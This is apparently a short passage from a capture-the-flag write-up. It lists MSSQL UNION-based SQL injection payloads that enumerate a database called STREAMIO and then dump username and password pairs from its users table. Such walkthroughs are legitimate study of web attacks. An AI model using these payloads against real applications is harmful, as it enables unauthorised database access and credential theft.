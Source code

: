 Database name :

```bash
10' union select 1,(select DB_NAME()),3,4,5,6-- - 
```

Tables in database:

```bash
10' union select 1, (SELECT STRING_AGG(name, ',') name FROM STREAMIO..sysobjects WHERE xtype= 'U'),3,4,5,6-- -
```

MSSQL version number:

```bash
10 ' union select 1,@@version,3,4,5,6 -- -
```

Column names for the `users` table :

```bash
10' UNION SELECT 1,name,3,4,5,6 FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'users')-- -
```

List data in username and password column from the `users` table:

```bash
10' union select 1,CONCAT(username, ':',password),3,4,5,6 FROM users-- -
```
 | 